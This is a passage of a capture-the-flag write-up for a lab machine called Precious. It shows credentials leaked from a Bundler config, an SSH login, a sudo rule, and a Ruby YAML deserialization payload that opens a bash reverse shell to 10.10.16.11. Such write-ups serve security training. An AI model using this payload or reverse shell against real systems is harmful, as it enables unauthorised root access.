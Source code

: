 ```sh
-r-xr-xr-x 1 root ruby   62 Sep 26  2022 config
ruby@precious:~/.bundle$ cat  config
cat  config
---
BUNDLE_HTTPS://RUBYGEMS__ORG/: "henry:Q3c1AqGHtoI0aXAYFH"
ruby@precious:~/.bundle$ 

```

ssh as `henry` : 

	username : henry
	password : Q3c1AqGHtoI0aXAYFH

# Privilege Escalation
```sh
 ssh henry@precious.htb
...[snip]...

henry@precious:~$ whoami
henry
henry@precious:~$ id
uid=1000(henry) gid=1000(henry) groups=1000(henry)
henry@precious:~$ 

```

we start off with `sudo -l`
```sh
henry@precious:~$ sudo -l
Matching Defaults entries for henry on precious:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User henry may run the following commands on precious:
    (root) NOPASSWD: /usr/bin/ruby /opt/update_dependencies.rb
henry@precious:~$ 

```
  We get that we can run a script with super user priv without a password
- https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Insecure%20Deserialization/Ruby.md

```yml
---
- !ruby/object:Gem::Installer
    i: x
- !ruby/object:Gem::SpecFetcher
    i: y
- !ruby/object:Gem::Requirement
  requirements:
    !ruby/object:Gem::Package::TarReader
    io: &1 !ruby/object:Net::BufferedIO
      io: &1 !ruby/object:Gem::Package::TarReader::Entry
         read: 0
         header: "abc"
      debug_output: &1 !ruby/object:Net::WriteAdapter
         socket: &1 !ruby/object:Gem::RequestSet
             sets: !ruby/object:Net::WriteAdapter
                 socket: !ruby/module 'Kernel'
                 method_id: :system
             git_set: bash -c 'bash -i >& /dev/tcp/10.10.16.11/9001 0>&1'
         method_id: :resolve

```